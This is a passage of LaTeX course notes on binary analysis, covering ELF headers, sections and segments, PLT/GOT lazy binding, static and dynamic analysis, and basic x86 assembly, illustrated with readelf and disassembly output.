  400454: e8 b7 ff ff ff        call  400410 <__libc_start_main@plt>
  400459: f4                    hlt
  40045a: 66 0f 1f 44 00 00     nop   WORD PTR [rax+rax*1+0x0]

0000000000400460 <deregister_tm_clones>:
...

0000000000400526 $\circled{4}$<main>:
400526: 55                      push  rbp
400527: 48 89 e5                mov   rbp , rsp
40052a: 48 83 ec 10             sub   rsp , 0 x10
40052e: 89 7d fc                mov   DWORD PTR [rbp-0x4], edi
400531: 48 89 75 f0             mov   QWORD PTR [rbp-0x10], rsi

\end{lstlisting}

We can see that the binary has a lot more code than the object file:\\
no longer just the main function or even just a single code section

There are multiple sections, namely .init $\circled{1}$ , .plt $\circled{2}$ , and .text $\circled{3}$

Each of these contain code serving different functions, such as program initialization or stubs
for calling shared libraries

The \colorbox{green}{.text section} is the \colorbox{yellow}{main code section}, and it contains the main function $\circled{4}$
. It also contains a number of other functions, such as \_start,
responsible for setting up the command line arguments and runtime environment
for main and cleaning up after main

Code and data \colorbox{yellow}{references have now been resolved by the linker}:\\
• e.g., the call to puts $\circled{5}$ now points to the proper stub
(in the .plt section) for the shared library that contains
puts

the full binary executable contains significantly more code
(and data – not shown) than the corresponding object file!

\section{Loading and Executing a Binary}

Loading a binary is a complicated process that involves a lot of work by the OS

A binary’s representation in memory does not necessarily correspond
one-to-one with its on-disk representation

For instance, large regions of zero-initialized data may be \colorbox{yellow}{collapsed} in the
on-disk binary (to save disk space), while all those zeros will be expanded
in memory

Some parts of the on-disk binary may be \colorbox{yellow}{ordered differently} in memory or
not loaded into memory at all

When we run a binary, the OS sets up a new process for the program to run in,
including a \colorbox{green}{virtual address space}

Then, the OS maps an interpreter into the process’s virtual memory

An \colorbox{green}{interpreter} is a user space program that \colorbox{yellow}{loads the binary and perform the necessary} \colorbox{yellow}{relocations}\\
• on Linux, the interpreter is typically a shared library called ld-linux.so\\
• on Windows, the interpreter functionality is implemented as part of ntdll.dll

\colorbox{yellow}{Kernel transfers control to the interpreter}

Loading an ELF binary on a Linux-based system;
\begin{figure}[H]
  \centering
  
\includegraphics[width=.4\linewidth]{loading_elf.png}
\end{figure}

\section{Elf Format}

Executable and Linkable Format (ELF):\\
• default binary format on Linux-based systems\\
• not only for executable files, also object files, shared libraries, and core dumps

In standard ELF binaries the \colorbox{yellow}{order} is:\\
• the executable header comes first\\
• the program headers come next\\
• then the sections\\
• section headers come last

A 64-bit ELF binary at a glance;
\begin{figure}[H]
  \centering
  
\includegraphics[width=.8\linewidth]{elf_binary_format.png}
\end{figure}

Useful for when reverese-engineering

\subsection{Elf Executable Header}
A structured series of bytes describing the \colorbox{yellow}{format and structure} of the ELF
file, e.g. where in the file to find all the other contents

\begin{lstlisting}
  typedef struct {
    unsigned char e_ident[16]; /*Magic number and other info */
    uint16_t    e_type;           /*Object file type */
    uint16_t    e_machine;        /*Architecture */
    uint32_t    e_version;        /*Object file version */
    uint64_t    e_entry;          /*Entrypoint virtual address */
    uint64_t    e_phoff;          /*Program header table file offset */
    uint64_t    e_shoff;          /*Section header table file offset */
    uint32_t    e_flags;          /*Processor-specific flags */
    uint16_t    e_ehsize;         /*ELF header size in bytes */
    uint16_t    e_phentsize;      /*Program header table entry size */
    uint16_t    e_phnum;          /*Program header table entry count */
    uint16_t    e_shentsize;      /*Section header table entry size */
    uint16_t    e_shnum;          /*Section header table entry count */
    uint16_t    e_shstrndx;       /*Section header string table index */
  } Elf64_Ehdr;
\end{lstlisting}

The 16-byte array eident starts with a 4-byte \colorbox{green}{“magic value”}, in this case the number 0x7f, followed by
the ASCII character codes for E, L, and F, to identify the file as an ELF binary

\begin{lstlisting}[mathescape]
  $\$$ readelf -h a.out
ELF Header :
$\circled{1}$ Magic:               7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00
$\circled{2}$ Class:               ELF64
  Data:                                 2's complement, little endian
  Version:                              1 (current)
  OS/ABI:                               UNIX-System V
  ABI Version:                          0
$\circled{3}$Type:               EXEC (Executable file)
$\circled{4}$Machine:             Advanced Micro DevicesX86-64
$\circled{5}$Version:             0x1
$\circled{6}$Entry point address:  0x400430
$\circled{7}$Start of program headers: 64 (bytes into file)
  Start of section headers:             6632 (bytes into file)
  Flags: 0x0
$\circled{8}$Size of this header: 64 (bytes)
$\circled{9}$Size of program headers: 56 (bytes)
  Number of program headers: 9
  Size of section headers: 64 (bytes)
  Number of section headers: 31
$\circled{10}$  Section header string table index: 28
\end{lstlisting}

e\_entry denotes the entry point of the binary:\\
• this is the virtual address at which execution should start\\
• in the previous code, it starts at address 0x400430 ($\circled{6}$)

This is where the interpreter (e.g., ld-linux.so) will transfer control after
it finishes loading the binary into virtual memory

\colorbox{pink}{The entry point is also a useful starting point for recursive disassembly}

\subsection{Elf Section Headers}

The \colorbox{yellow}{code and data} in an ELF binary are \colorbox{yellow}{logically divided} into \colorbox{yellow}{contiguous
  non-overlapping} chunks called \colorbox{green}{sections}

Every \colorbox{yellow}{section is described by a} \colorbox{green}{section header}, which denotes its properties
and allows us to locate the bytes belonging to the section

The section headers for all sections are \colorbox{yellow}{contained in the section header table}

Sections are intended to provide a \colorbox{yellow}{view for the linker only}:\\
ELF executables specify segments to be used at execution time

\begin{lstlisting}
  typedef struct {
    uint32_t sh_name;      /*Section name (string tbl index) */
    uint32_t sh_type;      /*Section type */
    uint64_t sh_flags;     /*Section flags */
    uint64_t sh_addr;      /*Section virtual addr at execution */
    uint64_t sh_offset;    /*Section file offset */
    uint64_t sh_size;      /*Section size in bytes */
    uint32_t sh_link;      /*Link to another section */
    uint32_t sh_info;      /*Additional section information */
    uint64_t sh_addralign; /*Section alignment */
    uint64_t sh_entsize;   /*Entry size if section holds table */
  } Elf64_Shdr;
\end{lstlisting}

\subsection{Elf Sections}

\begin{lstlisting}[mathescape]
readelf --sections --wide a.out
There are 31 section headers, starting at offset 0x19e8 :
Section Headers:
[Nr] Name               Type        Address               Off       Size    ES Flg Lk Inf Al
[ 0]                    $\circled{1}$NULL     0000000000000000     000000    000000 00 0   0   0
[ 1] .interp            PROGBITS     0000000000400238     000238    00001c  00 A   0  0  1
[ 2] .note.ABI-tag      NOTE         0000000000400254     000254    000020  00 A 0 0 4
[ 3] .note.gnu.build-id NOTE         0000000000400274     000274    000024  00 A 0 0 4
[ 4] .gnu.hash          GNU_HASH     0000000000400298     000298    00001c  00 A 5 0 8
[ 5] .dynsym            DYNSYM       00000000004002b8     0002b8    000060  18 A 6 1 8
[ 6] .dynstr            STRTAB       0000000000400318     000318    00003d  00 A 0 0 1
[ 7] .gnu.version       VERSYM       0000000000400356 000356 000008 02 A 5 0 2
[ 8] .gnu.version_r     VERNEED      0000000000400360 000360 000020 00 A 6 1 8
[ 9] .rela.dyn          RELA         0000000000400380 000380 000018 18 A 5 0 8
[ 10] .rela.plt         RELA         0000000000400398 000398 000030 18 AI 5 24 8
[ 11] .init             PROGBITS     00000000004003c8 0003c8 00001a 00 $\circled{2}$AX 0 0 4
[ 12] .plt              PROGBITS     00000000004003f0 0003f0 000030 10 AX 0 0 16
[ 13] .plt.got          PROGBITS     0000000000400420 000420 000008 00 AX 0 0 8
[ 14] .text $\circled{3}$           PROGBITS 0000000000400430 000430 000192 00 $\circled{4}$AX 0 0 16
[ 15] .fini             PROGBITS     00000000004005c4 0005c4 000009 00 AX 0 0 4
[ 16] .rodata           PROGBITS     00000000004005d0 0005d0 000011 00 A 0 0 4
[ 17] .eh_frame_hdr     PROGBITS     00000000004005e4 0005e4 000034 00 A 0 0 4
[ 18] .eh_frame         PROGBITS     0000000000400618 000618 0000f4 00 A 0 0 8
[ 19] .init_array       INIT_ARRAY   0000000000600e10 000e10 000008 00 WA 0 0 8
[ 20] .fini_array       FINI_ARRAY   0000000000600e18 000e18 000008 00 WA 0 0 8
[ 21] .jcr              PROGBITS     0000000000600e20 000e20 000008 00 WA 0 0 8
[ 22] .dynamic          DYNAMIC      0000000000600e28 000e28 0001d0 10 WA 6 0 8
[ 23] .got              PROGBITS     0000000000600ff8 000ff8 000008 08 WA 0 0 8
[ 24] .got.plt          PROGBITS     0000000000601000 001000 000028 08 WA 0 0 8
[ 25] .data             PROGBITS     0000000000601028 001028 000010 00 WA 0 0 8
[ 26] .bss              NOBITS       0000000000601038 001038 000008 00 WA 0 0 1
[ 27] .comment          PROGBITS     0000000000000000 001038 000034 01 MS 0 0 1
[ 28] .shstrtab         STRTAB       0000000000000000 0018da 00010c 00 0 0 1
[ 29] .symtab           SYMTAB       0000000000000000 001070 000648 18 30 47 8
[ 30] .strtab           STRTAB       0000000000000000 0016b8 000222 00 0 0 1

Key to Flags :
W (write), A (alloc), X (execute), M (merge), S (strings), l (large), I (info), L (link order), G (group), T (TLS),
E (exclude), x (unknown), O (extra OS processing required), o (OS specific), p (processor specific)
\end{lstlisting}

For each section, readelf shows the relevant basic information, including the
index (in the section header table), name, and type of the section,
as well as the virtual address, file offset, and size in bytes of the section

The \colorbox{green}{.init section} ([11]) contains executable code that performs \colorbox{yellow}{initialization
  tasks}. The system executes the code in the .init section before transferring
control to the main entry point of the binary

It needs to run before any other code in the binary is executed

The \colorbox{green}{.text section} ([14]) is where the \colorbox{yellow}{main code of the program resides}:\\
• frequently the \colorbox{yellow}{main focus} of binary analysis or reverse engineering efforts\\
• it has type SHT\_PROGBITS $\circled{4}$ because it contains user (program)-defined code\\
• the flags indicate that the section is \colorbox{yellow}{executable but not writable} $\circled{4}$

In general, executable sections should almost never be writable (and vice versa)
\colorbox{yellow}{for security} \colorbox{yellow}{reasons} (to prevent injection of code, but also, any change will
shift memory addresses, making the entire program unexecutable due to the reliance
of specific addresses)

The \colorbox{green}{.rodata section} (“read-only data”) is dedicated to storing \colorbox{yellow}{constant values}:\\
• it is not writable

The \colorbox{green}{.data} section stores the \colorbox{yellow}{default values of initialized variables}:\\
• it is writable since the values of variables may change at runtime

The \colorbox{green}{.bss section} \colorbox{yellow}{reserves space for uninitialized variables}:\\
• the (historic) name (“block started by symbol”) refers to the reserving of blocks of memory for (symbolic)
variables

\section{Lazy Binding and the PLT/GOT}

\colorbox{green}{Lazy binding} ensures that the \colorbox{yellow}{dynamic linker never needlessly wastes time on
  relocations}; it only performs those relocations that are truly needed at runtime

In Linux, ELF binaries are implemented with the help of \colorbox{yellow}{two special sections}:\\
the Procedure Linkage Table (\colorbox{green}{.plt}) and the Global Offset Table (\colorbox{green}{.got}), and \colorbox{green}{.got.plt}

.plt is a \colorbox{yellow}{code section} (contains executable code):\\
• it consists entirely of \colorbox{yellow}{stubs} of a well-defined format (pointers to data needed)\\
• it is dedicated to \colorbox{yellow}{directing calls} from the .text section to the appropriate library location\\

\colorbox{yellow}{".plt provides stubs for calling shared library functions via lazy binding"}

.got and .got.plt are data sections\\
.got contains \colorbox{yellow}{references to data items}

.got.plt is dedicated to \colorbox{yellow}{storing resolved addresses} for library functions
accessed via the PLT

Calling a shared library function via the PLT;
\begin{figure}[H]
  \centering
  
\includegraphics[width=.8\linewidth]{calling_via_plt.png}
\end{figure}

3 \& 6 do not run here. The puts is the print call in main; it needs to be accessed
from the library so it is read from the .plt which pushes 0 (signifying the hello world string).
This (2) is not useful as when it is the first time running, the string is not in the .got.plt.
So the puts call continues to the jump to the default stub which then loads in the Hello world
string from an OS call (5)

\section{Elf Program Headers}

It provides a \colorbox{yellow}{segment view} of the binary, as opposed to the section view\\
- the \colorbox{cyan}{section view} is meant for \colorbox{cyan}{static linking purposes only}

the segment view is \colorbox{yellow}{used by the operating system and dynamic linker} when
loading an ELF into a process for execution to locate the relevant code
and data and decide what to load into virtual memory

\colorbox{yellow}{needed only for executable ELF files} and not for nonexecutable files such
as relocatable objects

\begin{lstlisting}
  typedef struct {
uint32_t p_type;   /*Segment type */
uint32_t p_flags;  /*Segment flags */
uint64_t p_offset; /*Segment file offset */
uint64_t p_vaddr;  /*Segment virtual address */
uint64_t p_paddr;  /*Segment physical address */
uint64_t p_filesz; /*Segment size in file */
uint64_t p_memsz;  /*Segment size in memory */
uint64_t p_align;  /*Segment alignment */
} Elf64_Phdr;
\end{lstlisting}

\newpage

\begin{lstlisting}[mathescape]
  $\$$ readelf --wide --segments a.out
Elf file type is EXEC (Executable file)
Entry point 0x400430
There are 9 program headers, starting at offset 64
[...]
$\circled{1}$Section to Segment mapping:
Segment Sections...
00
01 .interp
02 .interp .note.ABI-tag .note.gnu.build-id .gnu.hash .dynsym .dynstr .gnu.version
   .gnu.version_r .rela.dyn .rela.plt .init .plt .plt.got .text .fini .rodata
   .eh_frame_hdr .eh_frame
03 .init_array .fini_array .jcr .dynamic .got .got.plt .data .bss
04 .dynamic
05 .note.ABI-tag .note.gnu.build-id
06 .eh_frame_hdr
07
08 .init_array .fini_array .jcr .dynamic .got
\end{lstlisting}

Basically, \colorbox{yellow}{segments are simply a bunch of sections bundled together} $\circled{1}$

\section{Binary Analysis}

\colorbox{green}{Binary analysis} is the science and art of \colorbox{yellow}{analysing the properties of binary
  computer programs}, called binaries, and the machine code and data they contain

The main goal is to figure out (and possibly modify) the properties of binary programs

\colorbox{yellow}{Disassembly} is an important \colorbox{yellow}{first step} in many forms of binary analysis

\colorbox{green}{Reverse engineering} is also a common application of binary analysis:\\
often the only way to document the behaviour of a program

Binary reverse engineering is performed if \colorbox{yellow}{source code for a software is unavailable}. By
\colorbox{yellow}{analysing and deconstructing} a binary, the goal is to \colorbox{yellow}{reveal its design}, architecture,
functionalities or to extract some knowledge from the binary

\colorbox{green}{Disassembly} is a the process of \colorbox{yellow}{translating machine language into assembly language} to
aid human-readability (the inverse operation to that of an assembler)

\colorbox{green}{Decompilation} is the process of taking an executable file as input in an \colorbox{yellow}{attempt to create a}
\colorbox{yellow}{high level source file} which can be recompiled successfully

\colorbox{green}{Static analysis} techniques \colorbox{yellow}{reason about a binary without running it}. This approach has several
advantages: we can \colorbox{pink}{potentially analyse the whole binary in one run}, and we \colorbox{pink}{don’t} \colorbox{pink}{need a
  specific CPU} for that binary format. The downside is that static analysis has \colorbox{pink}{no} \colorbox{pink}{knowledge of
  the binary’s runtime state}, which can make the analysis very challenging

\colorbox{green}{Dynamic analysis} runs the binary and \colorbox{yellow}{analyses it as it executes}. This approach is often \colorbox{pink}{simpler}
than static analysis because we have \colorbox{pink}{full knowledge of the entire runtime state} (e.g., values of
variables and outcomes of conditional branches). However, we \colorbox{pink}{can only observe the} \colorbox{pink}{executed
  code}, so the analysis may miss interesting parts of the program

Binary analysis is \colorbox{yellow}{challenging} and much more difficult than equivalent analysis
at the source code level; many binary analysis tasks are fundamentally undecidable

Challenges:\\
• \colorbox{yellow}{no symbolic information}: binaries are often stripped of symbols (e.g., names of variables and functions),
making it much harder to understand the code\\
• \colorbox{yellow}{no type information}: at the binary level, types (e.g., int, float, strings, struct, etc) are never explicitly stated,
making the purpose and structure of data hard to infer\\
• \colorbox{yellow}{no high-level abstractions}: binaries appear as huge blobs of code and data, rather than well-
structured programs (e.g., with classes and functions), and restoring the high-level structure is
complex and error-prone\\
• \colorbox{yellow}{mixed code and data}: binaries can (and do) contain data fragments mixed in with the
executable code. This makes it easy to accidentally interpret data as code, or vice versa, leading
to incorrect results\\
• \colorbox{yellow}{location-dependent code and data}: because binaries are not designed to be modified, even adding
a single machine instruction can cause problems as it shifts other code around,
which might invalidate memory addresses and references from elsewhere in the code
and any kind of code or data modification is extremely challenging and prone to breaking the binary

\section{Crash Course on Assembly}

Simple C program;
\begin{lstlisting}[mathescape]
  #include <stdio.h>

  int
$\circled{1}$ main(int argc, char *argv [ ])
{
  $\circled{2}$printf($\circled{3}$ "Hello, world! \n");
  return 0;
}
\end{lstlisting}

Which, when compiled in assembly, looks like:
\begin{lstlisting}[mathescape]
  .file "hello.c"
  .intel_syntax noprefix
$\circled{4}$ .section .rodata
.LC0 :
$\circled{5}$ .string "Hello, world!"
$\circled{6}$ .text
.globl main
.type main, @function
$\circled{7}$ main
push rbp
mov rbp , rsp
sub rsp , 16
mov DWORD PTR [rbp-4], edi
mov QWORD PTR [rbp-16], rsi
$\circled{8}$ mov edi, OFFSET FLAT : .LC0
$\circled{9}$ call puts
mov eax, 0
leave
ret
.size main , .-main
.ident "GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.9)"
.section .note.GNU-stack, " " ,@progbits
\end{lstlisting}

The program consists of a main function $\circled{1}$ that calls printf
$\circled{2}$ to print a constant "Hello, world!" string$\circled{3}$ . At a high
level, the corresponding assembly program consists of four
types of components: \colorbox{yellow}{instructions, directives, labels, and comments}

\colorbox{green}{Instructions} are the \colorbox{yellow}{actual operations} that the CPU executes

\colorbox{green}{Directives} are \colorbox{yellow}{commands} that \colorbox{yellow}{tell} the \colorbox{yellow}{assembler} to produce a particular piece
of data, place instructions or data in a particular section, and so on

\colorbox{green}{Labels} are \colorbox{yellow}{symbolic names} that you can use to \colorbox{yellow}{refer to instructions or data}
in the assembly program

\colorbox{green}{Comments} are human-readable \colorbox{yellow}{strings for documentation purposes}

\colorbox{yellow}{After} the program is \colorbox{yellow}{assembled and linked} into a binary, all \colorbox{yellow}{symbolic names}
are \colorbox{yellow}{replaced} \colorbox{yellow}{by addresses}

Components of an Assembly Program;
\begin{figure}[H]
  \centering
  
\includegraphics[width=.8\linewidth]{assembly_program_components.png}
\end{figure}

\subsection{AT\&T Vs Intel Syntax}

\colorbox{green}{AT\&T syntax} explicitly \colorbox{yellow}{prefixes} every \colorbox{yellow}{register} name with the \colorbox{yellow}{\%} symbol and every \colorbox{yellow}{constant}
with a \colorbox{yellow}{\$} symbol – Intel omits these symbols

\colorbox{yellow}{They order instruction operands in the opposite way}:

In AT\&T syntax, the source operand comes before the destination so that moving a constant into the edi
register is \lstinline|mov $0x6, %edi|

Intel syntax represents the same instruction with the destination operand first
\lstinline|mov edi, 0x6|

\subsection{Structure of an X86 Instruction}

x86 instructions generally have the form mnemonic destination, source

The \colorbox{green}{mnemonic} is a \colorbox{yellow}{human-readable representation of a machine instruction}, and source and
destination are the operands of the instruction. For example: \lstinline|mov rbx , rax|
copies the value from the rax register into rbx

\colorbox{pink}{Note that not all instructions have exactly two operands} – some even have no
operands at all

x86 ISA uses variable-length instructions: from 1 byte to 15 bytes

Instructions can start at any memory address – CPU doesn’t enforce any particular code alignment,
but compiler can align for optimization

An x86 instruction consists of: optional prefixes, an opcode, and zero or more operands

Structure of an x86 instruction;
\begin{figure}[H]
  \centering
  
\includegraphics[width=.8\linewidth]{strcuture_x86_instruction.png}
\end{figure}

The \colorbox{green}{opcode} is the main designator for the \colorbox{yellow}{instruction type}:\\
e.g., the opcode 0x90 encodes a nop instruction that does nothing, while the opcodes
0x00--0x05 encode various types of add instructions

\colorbox{green}{Prefixes} can \colorbox{yellow}{modify the behavior of an instruction}:\\
e.g., causing it to repeat multiple times or access a different memory segment

\colorbox{green}{Operands} are the \colorbox{yellow}{data that the instruction operates on}

Some instructions have \colorbox{yellow}{implicit operands}, e.g.:\\
• the destination operand of opcode 0x05 (an add instruction) is always rax\\
• the push instruction implicitly updates rsp (the stack pointer register)

x86 instructions can have three different \colorbox{cyan}{types of operands}: register operands, memory operands,
and immediates

\colorbox{green}{Registers} are \colorbox{yellow}{small, quickly accessible storage location on the CPU}

\colorbox{pink}{Some registers have a special purpose} (e.g., instruction pointer or the stack pointer)

Others are general-purpose storage units for variables used by whatever program the CPU is
executing

To specify a register operand in assembly, you use the register’s name:\\
e.g., mov rax,64 moves the value 64 into the rax register

The lower 32 bits of rax 64bit register form a register named eax:\\
the lower 16 bits of that form the original 8086 register ax

it is possible to access the lower byte in ax through the register name al and
the higher byte through ah

\colorbox{yellow}{Subdivision} of the x86-64 rax register;
\begin{figure}[H]
  \centering
  
\includegraphics[width=.8\linewidth]{rax_register.png}
\end{figure}

x86 CPUs contain other registers that are not general purpose

The two most important are rip (eip on 32-bit x86 and ip on 8086) and rflags (called eflags or flags
in older ISAs)

\colorbox{green}{rip} (instruction pointer): always \colorbox{yellow}{points to the next instruction address} and is automatically
set by the CPU:\\
on x86-64 it is possible to read the value of the instruction pointer (not on 32-bit x86)

\colorbox{green}{rflags} (status flags register): \colorbox{yellow}{used for comparisons} and conditional branches and tracks things such
whether the last operation yielded zero, resulted in an overflow

segment registers: cs, ds, ss, es, fs, and gs

\colorbox{green}{control registers}: e.g., cr0–cr10, that the kernel uses to \colorbox{yellow}{control the CPU’s behavior}, for
instance, to switch between protected mode and real mode

\colorbox{green}{debuger registers}: e.g., dr0–dr7, that provide \colorbox{yellow}{hardware support for debugging features} such as
breakpoints

model-specific registers (MSRs): e.g. cpuid, rdmsr and wrmsr

registers used in extended instruction sets: e.g., SSE and MMX that are not available on all x86
CPUs

\colorbox{green}{Memory operands} specify \colorbox{yellow}{a memory address where the CPU should fetch one or more bytes}

The x86 ISA supports only one explicit memory operand per instruction:

It’s not possible to directly mov bytes from one memory location to another in one instruction\\
we have to use a register as intermediate storage

On x86, we can \colorbox{yellow}{specify memory operands} with [base + index*scale + displacement],\\
where:\\
• base and index are 64-bit registers\\
• scale is an integer with the value 1, 2, 4, or 8\\
• displacement is a 32-bit constant or a symbol\\

note: all of these components are optional (the CPU computes the result of the memory operand
expression)

example; \lstinline|mov eax , DWORD PTR [rax*4 + arr]|

We use this instruction to access an array element, where arr is a displacement containing
the array’s starting address

rax contains the index of the element we want to access

Each array element is 4 bytes long

\colorbox{green}{DWORD PTR} tells the assembler that we want to \colorbox{yellow}{fetch 4 bytes} (a doubleword or DWORD) from
memory

\colorbox{green}{Immediates} are \colorbox{yellow}{constant integer operands} hardcoded in the instruction:\\
e.g., in the instruction add rax, 42, the value 42 is an immediate

On x86, immediates are encoded in little-endian format:\\
• the least significant byte of a multibyte integer comes first in memory\\
• signed integers are encoded x86 using two’s complement notation

\subsection{Common instructions}
\begin{figure}[H]
  \centering
  
\includegraphics[width=.8\linewidth]{common_instructions1.png}
\end{figure}
\begin{figure}[H]
  \centering
  
\includegraphics[width=.8\linewidth]{common_instructions2.png}
\end{figure}
\begin{figure}[H]
  \centering
